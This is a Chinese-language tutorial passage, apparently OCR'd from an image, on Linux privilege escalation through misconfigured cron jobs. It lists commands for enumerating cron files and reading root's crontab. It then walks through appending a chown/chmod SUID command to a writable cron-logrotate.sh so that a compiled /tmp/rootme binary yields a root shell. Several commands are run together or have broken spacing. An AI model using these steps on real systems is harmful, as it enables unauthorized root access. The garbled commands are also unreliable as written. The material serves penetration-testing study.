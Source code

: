 1. 检查 cron 运行的脚本的文件权限。如果权限设置不正确，则攻击者可能会覆盖文件并轻松获取 cron 中设置的用户权限。

2. 另一种方法是使用通配符技巧

**Cron**** 信息收集 **

一些基本命令收集一些线索，以使用错误配置的 cron 实现特权升级。

<table><thead><tr><th><strong>命令</strong></th><th><strong>结果</strong></th></tr></thead><tbody><tr><td>crontab -l</td><td>显示当前用户的 cron</td></tr><tr><td>ls -la /etc/cron*</td><td>显示计划的作业概述</td></tr></tbody></table>

具有特权的运行脚本，其他用户可以编辑该脚本。

**查找特权用户拥有但可写的任何内容：**

crontab -lls -alh /var/spool/cronls -al /etc/ | grep cronls -al /etc/cron_cat /etc/cron_cat /etc/at.allowcat /etc/at.denycat /etc/cron.allowcat /etc/cron.denycat /etc/crontabcat /etc/anacrontabcat /var/spool/cron/crontabs/root

**查看其他用户的** crontab

$ crontab -u tstark -l0 0  / jarvis / reboot-arc-reactor

如果服务器上有很多用户，那么可以在 cron 日志中看到详细信息，可能包含用户名。

例如，在这里我可以看到运行数据库备份脚本的 ubuntu 用户：

8 月 5 日 4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

**使用** pspy **工具（**32 **位为** pspy32**，**64 **位为** pspy64**）。**

下载链接：https://github.com/DominicBreuker/pspy

**利用配置错误的** cronjob **获得** root **访问权限**

$ ls -la /etc/cron.d –输出 cron.d 中已经存在的 cronjob

find / -perm -2 -type f 2> / dev / null –输出可写文件

ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认 cron-logrotate.sh 是否可写。

### 我们知道 cron-lograte.sh 是可写的，它由 logrotate cronjob 运行。

那么我们在 cron-lograte.sh 中编写 / 附加的任何命令都将以 “root” 身份执行。

我们在 / tmp 目录中编写一个 C 文件并进行编译。

rootme 可执行文件将生成一个 shell。

```
$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的

$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。

```

### Cron 脚本覆盖和符号链接
